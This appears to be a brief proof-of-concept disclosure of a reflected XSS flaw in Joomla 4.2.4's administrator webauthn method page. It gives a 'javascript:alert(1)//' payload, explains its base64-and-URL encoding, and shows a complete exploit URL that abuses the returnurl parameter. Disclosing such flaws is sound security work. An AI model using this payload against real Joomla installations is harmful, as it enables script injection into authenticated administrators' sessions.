 Vulnerability: Reflected XSS

Payload: javascript:alert(1)//

Action to trigger: Click cancel button

Note: The version and user below are what was used.  Other users and versions may be affected.

Note: The payload must be base64encoded and then url encoded.

Note: The user_id parameter may require a valid value

Version: ‎4.2.4


http://192.168.124.216/administrator/index.php?option=com_users&task=method.add&method=webauthn&returnurl=%61%6d%46%32%59%58%4e%6a%63%6d%6c%77%64%44%70%68%62%47%56%79%64%43%67%78%4b%53%38%76&user_id=951

Authenticated: Yes

User: Admin

Vulnerable Parameter: returnurl


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/Joomla_4.2.4_XSS_via_returnurl.gif)
